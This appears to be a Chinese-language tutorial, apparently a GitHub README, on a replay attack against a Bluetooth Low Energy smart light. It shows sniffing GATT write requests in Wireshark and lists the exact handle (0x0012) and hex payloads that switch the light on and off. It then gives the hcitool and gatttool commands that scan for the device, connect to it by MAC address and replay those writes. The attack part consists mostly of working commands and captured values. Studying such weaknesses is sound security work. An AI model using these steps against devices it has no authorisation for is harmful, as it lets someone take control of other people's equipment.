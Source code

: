 # 嗅探:
用wireshark进行BLE流量嗅探，过滤btatt，GATT协议的数据
sent write request请求，句柄为0x0012，写入了相应的value值
经过一系列抓包发现，0e000000000000000000000418020181为开灯操作
0e000000000000000000000418020180为关灯操作
![](image/78c590766e792c7e85f079794b00784a.png)
# 重放攻击:
这里利用Parani-UD100硬件，使其连接到Linux系统
查看蓝牙设备信息
```c
hciconfig
```
![](image/6c7b277bb23f91c0403dc75617b8b3d4.png)
扫描周围的低功耗蓝牙（BLE）设备
```c
sudo hcitool lescan
```
![](image/0a30c5a51b0357528de0c6588aae8055.png)
进行交互
```c
gatttool -b F0:45:DA:F4:13:E4 -I
#-b 要接蓝牙设备的mac地址
#-I 以交互模式运行
connect
#连接
```
![](image/2ad635a61ec37796aa4f7028c0890b94.png)
列出所有特征
```c
characteristics
```
![](image/911fa111bddf3e23d96d0b2e7b6ee481.png)
向指定特征句柄写入数据
```c
# 开灯操作
char-write-req 0x0012 0e000000000000000000000418020181
# 关灯操作
char-write-req 0x0012 0e000000000000000000000418020180
```
![](image/d87c2372b461e496240838e97529f82f.png)